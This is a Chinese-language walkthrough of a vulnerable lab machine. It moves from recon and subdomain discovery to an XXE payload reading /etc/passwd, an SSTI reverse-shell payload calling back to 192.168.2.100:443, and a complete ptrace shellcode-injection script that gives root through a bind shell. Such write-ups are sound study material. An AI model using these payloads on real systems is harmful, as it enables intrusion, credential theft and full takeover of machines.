# Recon

这台机器开放了两个`http`服务和一个`53/tcp`



# wfuzz

`80/tcp`网页前端有一些功能点，点击访问链接`/#form.html`和`#app.html`，需要手动删除`#`，暂时没发现有什么利用点



在源代码中发现一个`TODO`，其中泄露了一个参数`page_no`



fuzz参数，发现`?page_no=21`不太一样



返回的信息中包含一个子域名` hackers.blackhat.local`，写入`/etc/hosts`尝试访问



`/etc/host`要同时写入主域名和已知子域名





从ip访问开始就发现前端字符反复提示了`dig`，现在已经获得了域名，尝试一下用`dig`发现子域名

发现还存在`hackerkid.blackhat.local`



# XXE

写入`hosts`后访问得到一个注册页面



注册发现怎样都提示邮箱不可用，抓包发现传值使用的是`xml`



尝试`xxe`，payload如下：将调用实体的位置放在`email`标签内

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
  <name>a</name>
  <tel>123</tel>
  <email>&xxe;</email>
  <password>Admin@123</password>
</root>
```

读取`/etc/passwd`成功，发现除`root`外的第二个有效用户`saket`



# shell as saket by SSTI

对`saket`用户`home`目录开展信息收集，在`/home/saket/.bashrc`下得到一对凭证



使用这对凭证发现登录不了`9999/tcp`端口的后台，将`admin`替换为`saket`登录成功



登陆后根据提示传递`?name`参数，发现存在`SSTI`



使用payload反弹shell


```python
{{os.system('bash -c "bash -i >& /dev/tcp/192.168.2.100/443 0>&1"')}}
```


需要对`payload`进行全字符`url`编码





# shell as root by cap_sys_ptrace

例行检查，发现`python2.7`存在`cap_sys_ptrace`



找一个`root`权限的进程，得到`PID`



将`exp`写入`inject.py`

```python
import ctypes
import sys
import struct

# Macros defined in <sys/ptrace.h>
PTRACE_POKETEXT = 4
PTRACE_GETREGS = 12
PTRACE_SETREGS = 13
PTRACE_ATTACH = 16
PTRACE_DETACH = 17

# Structure defined in <sys/user.h>
class user_regs_struct(ctypes.Structure):
    _fields_ = [
        ("r15", ctypes.c_ulonglong),
        ("r14", ctypes.c_ulonglong),
        ("r13", ctypes.c_ulonglong),
        ("r12", ctypes.c_ulonglong),
        ("rbp", ctypes.c_ulonglong),
        ("rbx", ctypes.c_ulonglong),
        ("r11", ctypes.c_ulonglong),
        ("r10", ctypes.c_ulonglong),
        ("r9", ctypes.c_ulonglong),
        ("r8", ctypes.c_ulonglong),
        ("rax", ctypes.c_ulonglong),
        ("rcx", ctypes.c_ulonglong),
        ("rdx", ctypes.c_ulonglong),
        ("rsi", ctypes.c_ulonglong),
        ("rdi", ctypes.c_ulonglong),
        ("orig_rax", ctypes.c_ulonglong),
        ("rip", ctypes.c_ulonglong),
        ("cs", ctypes.c_ulonglong),
        ("eflags", ctypes.c_ulonglong),
        ("rsp", ctypes.c_ulonglong),
        ("ss", ctypes.c_ulonglong),
        ("fs_base", ctypes.c_ulonglong),
        ("gs_base", ctypes.c_ulonglong),
        ("ds", ctypes.c_ulonglong),
        ("es", ctypes.c_ulonglong),
        ("fs", ctypes.c_ulonglong),
        ("gs", ctypes.c_ulonglong),
    ]

libc = ctypes.CDLL("libc.so.6")
pid = int(sys.argv[1])

libc.ptrace.argtypes = [ctypes.c_uint64, ctypes.c_uint64, ctypes.c_void_p, ctypes.c_void_p]
libc.ptrace.restype = ctypes.c_uint64

libc.ptrace(PTRACE_ATTACH, pid, None, None)
registers = user_regs_struct()

libc.ptrace(PTRACE_GETREGS, pid, None, ctypes.byref(registers))
print("Instruction Pointer: " + hex(registers.rip))

print("Injecting Shellcode at: " + hex(registers.rip))

# Shellcode
shellcode = (
    "\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f"
    "\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58"
    "\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97"
    "\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62"
    "\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05"
)

for i in range(0, len(shellcode), 4):
    # Convert the bytes to little-endian integer
    shellcode_byte_int = struct.unpack("<I", shellcode[i:i+4].ljust(4, '\x00'))[0]
    libc.ptrace(PTRACE_POKETEXT, pid, ctypes.c_void_p(registers.rip + i), shellcode_byte_int)

print("Shellcode Injected!!")

# Modify the instruction pointer
registers.rip += 2

# Set the registers
libc.ptrace(PTRACE_SETREGS, pid, None, ctypes.byref(registers))
print("Final Instruction Pointer: " + hex(registers.rip))

# Detach from the process.
libc.ptrace(PTRACE_DETACH, pid, None, None)
```

执行`python2.7 inject.py 726`，将会在`tcp/5600`开放一个`root`权限的`bind_shell`



使用`pwncat`连接

